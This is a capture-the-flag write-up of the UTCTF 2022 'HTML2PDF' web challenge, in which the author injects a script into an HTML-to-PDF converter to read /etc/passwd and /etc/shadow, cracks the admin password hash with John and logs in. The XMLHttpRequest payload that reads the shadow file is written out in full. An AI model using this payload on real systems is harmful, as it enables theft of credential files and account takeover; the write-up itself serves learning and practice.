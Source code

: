 ```yaml
---
layout: post
category: writeups
title: "UTCTF 2022"
date: 2022-03-07
head_ctf_categories:
  - web
---
```

# web

## HTML2PDF

![img_name](/assets/img/UTCTF_2022/html2pdf.png){: .image-50 }


We are given a link to a web page.

![img_name](/assets/img/UTCTF_2022/html2pdf_a.png){: .image-50 }


I press the Sumbit button and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_b.png){: .image-50 }


and looking at the bottom I see:

![img_name](/assets/img/UTCTF_2022/html2pdf_c.png){: .image-50 }


`Rendered by HTML2PDF`: HTML2PDF as the title of the challenge, a glue?

The clue leads me to make some search fon the web and I find:

![img_name](/assets/img/UTCTF_2022/html2pdf_d.png){: .image-50 }


Good! And following the second web link:


![img_name](/assets/img/UTCTF_2022/html2pdf_e.png){: .image-50 }

Very Good! let's try a simple script:

```html
<h1 id=rd>HA HA HA</h1>
<script>
document.getElementById('rd').innerHTML= 'Hello World';
</script>
```
and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_f.png){: .image-50 }

and with another script I try to get the passwd file:


![img_name](/assets/img/UTCTF_2022/html2pdf_g.png){: .image-50 }

I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_h.png){: .image-50 }

there's a nice username:`WeakPasswordAdmin`

So I try to get the shadow file using the following script:

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/shadow");
x.send();
</script
```

![img_name](/assets/img/UTCTF_2022/html2pdf_i.png){: .image-50 }

and I get:

![img_name](/assets/img/UTCTF_2022/html2pdf_l.png){: .image-50 }

I can see the  `hash of WeakPasswordAdmin’s password`


I try to use John to crack the password:

![img_name](/assets/img/UTCTF_2022/html2pdf_m.png){: .image-50 }

“sunshine” is the password!

So afte Log in with those credentials I get the flag:

![img_name](/assets/img/UTCTF_2022/html2pdf_n.png){: .image-50 }



